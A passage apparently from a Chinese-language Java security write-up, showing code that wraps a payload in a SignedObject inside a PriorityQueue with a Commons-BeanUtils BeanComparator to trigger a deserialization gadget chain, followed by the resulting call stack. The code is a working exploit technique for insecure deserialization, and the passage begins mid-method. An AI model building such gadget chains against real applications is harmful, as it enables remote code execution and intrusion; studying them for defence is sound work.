 ```java

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(queue1, kp.getPrivate(), Signature.getInstance("DSA"));

        PriorityQueue queue2 = getpayload(signedObject, "object");

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(queue2);
        oos.close();
        //System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static PriorityQueue<Object> getpayload(Object object, String string) throws Exception {
        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        priorityQueue.add("1");
        priorityQueue.add("2");
        setFieldValue(beanComparator, "property", string);
        setFieldValue(priorityQueue, "queue", new Object[]{object, null});
        return priorityQueue;
    }
}
```

调用链：
```
getObject:177, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeMethod:2170, PropertyUtilsBean (org.apache.commons.beanutils)
getSimpleProperty:1332, PropertyUtilsBean (org.apache.commons.beanutils)
getNestedProperty:770, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:846, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:426, PropertyUtils (org.apache.commons.beanutils)
compare:157, BeanComparator (org.apache.commons.beanutils)
siftDownUsingComparator:722, PriorityQueue (java.util)
siftDown:688, PriorityQueue (java.util)
heapify:737, PriorityQueue (java.util)
readObject:797, PriorityQueue (java.util)
```

